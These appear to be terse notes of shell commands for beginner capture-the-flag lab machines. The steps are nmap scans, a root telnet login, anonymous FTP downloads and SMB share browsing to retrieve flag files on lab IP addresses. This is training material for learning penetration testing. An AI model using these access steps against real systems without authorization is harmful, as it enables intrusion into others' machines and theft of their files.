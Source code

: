 Maullido
ping 10.129.175.101
nmap -sC 10.129.175.101
telnet -l root 10.129.175.101
ls
cat flag.txt

Adular
nmap -sC 10.129.173.229
ftp -?
ftp 10.129.73.229
get flag.txt
exit o bye
cat flag.txt

Baile
nmap -sV
sudo apt-get install smbclient
smbclient -L 10.129.246.26
smbclient \\\\10.129.246.26\\ADMIN$
smbclient \\\\10.129.246.26\\C$
smbclient \\\\10.129.246.26\\WorkShares
ls
cd Amy.j
ls
get worknotes.txt
cd ..
cd James.P
ls
get flag.txt
exit
cat worknotes.txt
cat flag.txt

Redentor
ping 10.129.47.43
nmap -p- -sV 10.129.47.43